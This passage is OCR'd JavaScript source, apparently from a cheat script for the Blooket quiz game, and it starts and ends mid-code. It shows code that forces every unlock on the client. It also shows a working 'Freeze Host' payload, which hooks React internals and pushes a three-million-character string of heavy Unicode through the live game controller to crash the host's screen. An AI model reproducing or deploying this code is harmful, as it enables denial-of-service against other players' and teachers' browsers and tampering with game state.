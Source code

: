                         }

                    } else {

                        stateNode.setState({

                            unlocks: {

                                includes: e => 1

                            }

                        });

                    }

                })();

            }

        }, {

            name: "Freeze Host",

            description: "Freezes the host's screen",

            run: function() {

                const encodedChars = [

                    '\\u2f9f', '\\u4fff', '\\u4f52', '\\u0E47', '\\u0E47', '\\u0E47', '\\u0E47', '\\u0E47', '\\u0E47', '\\u0E47', '\\u4FF1', '\\u4FF2'

                ];



                const chars = encodedChars.map(char => eval(`"${char}"`));



                function makeLongText() {

                    return new Array(3e+6).fill().map(e => chars[Math.floor(Math.random() * chars.length)]).join("");

                }



                let {

                    props: t

                } = Object.values(function e(t = document.querySelector("body>div")) {

                        return Object.values(t)[1]?.children?.[0]?._owner.stateNode ? t : e(t.querySelector(":scope>div"));

                    }

                    ())[1].children[0]._owner.stateNode;



                let repeatedText = makeLongText();

                t.client.blook = repeatedText;

                t.liveGameController.setVal({
